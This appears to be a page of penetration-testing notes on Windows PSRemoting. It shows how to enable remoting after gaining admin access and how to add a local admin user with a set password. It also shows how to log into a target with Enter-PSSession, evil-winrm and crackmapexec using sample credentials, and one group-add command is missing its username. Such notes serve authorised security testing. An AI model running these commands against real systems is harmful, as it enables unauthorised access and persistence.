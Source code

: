 # PSRemoting

## Enabling PSRemoting

After getting administrator access to a machine it is possible to enable PSRemoting:

```
Enable-PSRemoting
```

It might be usefull to add a new user or a user you already have to the local `Administrator` or `Remote Management Group`.

```
net user user Welcome01! /add
net localgroup administrators user /add
net localgroup "Remote Management Users" /add
```

## Accessing the machine

### PowerShell Enter-PSsession

```
Enter-PSSession ws01
```

![](<../../../.gitbook/assets/image (20) (1).png>)

### Evil-WinRM

* [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

```
evil-winrm -i 10.0.0.128 -u john -p 'Welcome2022!'
```

![](<../../../.gitbook/assets/image (12) (1) (1).png>)

## Crackmapexec

* [https://github.com/byt3bl33d3r/CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

```
crackmapexec winrm 10.0.0.128 -u john -p 'Welcome2022!'
```

![](<../../../.gitbook/assets/image (42) (1) (1) (1).png>)

{% hint style="info" %}
#### Observation

During testing I found out that crackmapexec is really slow over winrm if Windows Firewall is enabled on our fully up-to-date Windows 10 machine.
{% endhint %}

## References

{% embed url="https://github.com/Hackplayers/evil-winrm" %}

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}
